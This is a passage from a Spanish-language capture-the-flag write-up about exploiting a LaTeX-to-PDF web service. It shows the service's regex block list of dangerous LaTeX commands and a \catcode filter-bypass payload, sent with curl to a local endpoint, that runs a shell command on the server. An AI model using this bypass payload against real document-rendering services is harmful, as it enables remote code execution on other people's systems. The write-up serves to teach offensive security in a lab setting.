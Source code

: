 Vemos que se puede realizar un `RCE` aprovechando dicha vulnerabilidad, pero tambien tiene esta lista de bloqueo:

```python
# Definir un directorio seguro dentro del proyecto para trabajar con archivos temporales
WORK_DIR = "/opt/latexapp/working_dir"
os.makedirs(WORK_DIR, exist_ok=True)  # Crear el directorio si no existe

BLOCKED_PATTERNS = [
    r"\\input",
    r"\\include",
    r"\\write",
    r"\\openout"
]

def is_malicious_latex(latex_code):
    """Verifica si el código LaTeX contiene patrones peligrosos"""
    for pattern in BLOCKED_PATTERNS:
        if re.search(pattern, latex_code):
            return True
    return False
```

Por lo que tendremos que realizar un `Bypass` de esto mismo.

Tras buscar mucho encontre una pagina la cual explica todo esto:

URL = [Info Exploit RCE Latex](https://book.jorianwoltjer.com/languages/latex)

Si nos vamos a la seccion llamada `Filter Bypass` podremos ver varios `payloads` que `Bypassean` la lista de bloqueo, pudiendo hacer un `RCE` como el usuario `trr0r`.

El payload que me ha funcionado que vi en la pagina fue el siguiente:

```latex
\catcode`X=0                % change meaning of X to 'escape character'
Xinput{|"id > /tmp/pwned"}  % use X as an escape character to run \input
```

Por lo que nuestro `payload` utilizando `curl` nos tendra que quedar de la siguiente forma:

```shell
curl -X POST -d 'formula=\catcode`X=0 Xinput{|"id > /tmp/pwned1"}' http://127.0.0.1:6200/render
```

Info:

```
Error generando el PDF
```

Aunque nos ponga eso, si listamos el `/tmp` veremos lo siguiente:

```
total 16
drwxrwxrwt 1 root  root  4096 Mar 30 12:25 .
drwxr-xr-x 1 root  root  4096 Mar 30 12:03 ..
-rw-r--r-- 1 trr0r trr0r   62 Mar 30 12:22 pwned
```
